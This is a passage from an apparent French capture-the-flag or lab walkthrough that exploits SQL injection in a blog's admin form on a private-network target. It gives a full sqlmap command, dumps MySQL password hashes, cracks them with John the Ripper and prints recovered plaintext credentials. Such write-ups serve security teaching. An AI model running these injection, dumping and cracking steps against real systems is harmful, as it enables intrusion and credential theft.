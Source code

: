 À noter qu'aucun mécanisme de cookies n'est présent, c'est pour cela que les identifiants sont demandés sur les deux scripts.  

On remplit le formulaire en plaçant une parenthèse dans le champ du nom d'utilisateur comme *Wapiti* l'a fait et on obtient effectivement une erreur quelque peu bavarde :  

```sql
SELECT * FROM blog_users WHERE poster = 'test')' AND password = ''
You have an error in your SQL syntax; check the manual that corresponds to your
MySQL server version for the right syntax to use near ')' AND password = ''' at line 1
```

On pourrait facilement exploiter cette faille à la main tellement l'erreur nous aide, mais on va se servir de *sqlmap* pour gagner du temps. On commence par récupérer l'utilisateur courant avec cette commande :  

```bash
python sqlmap.py -u "http://192.168.1.95/admin/post.php" \
--data="month=on&date=13&year=on&username=*&password=letmein&time=07%3A08&title=default&entry=on&submit=Submit"\
--dbms=mysql --current-user
```

Le résultat s'affiche sous cette forme :  

```
[18:06:50] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 5.0 (lenny)
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL 5.0
[18:06:50] [INFO] fetching current user
[18:06:50] [INFO] retrieved: root@localhost

current database:    'blogdb'
```

L'application web utilise l'utilisateur mysql root... ça envoie du lourd. On continue avec un dump des hashs (*--passwords*) :  

```
debian-sys-maint:5b745a5c3656f410
root@%:6ff1f95e508abd08
root:6ff1f95e508abd08
```

Ces derniers se cassent assez rapidement avec *JTR* :  

```console
$ /opt/jtr/john   --format=mysql sqlmaphashes-2eH9R3.txt
Loaded 3 password hashes with no different salts (MySQL [32/64])
toorcon          (root@%)
toorcon          (root)
```

Après avoir identifié le nom de la base de données (`blogbd`) puis celui des tables (`-D blogbd--tables`) on dumpe le contenu de la table `blog_users` contenant les infos de connexion de la webapp :  

```
+----+---------+-----------+
| id | poster  | password  |
+----+---------+-----------+
| 1  | blogger | blogger01 |
+----+---------+-----------+
```
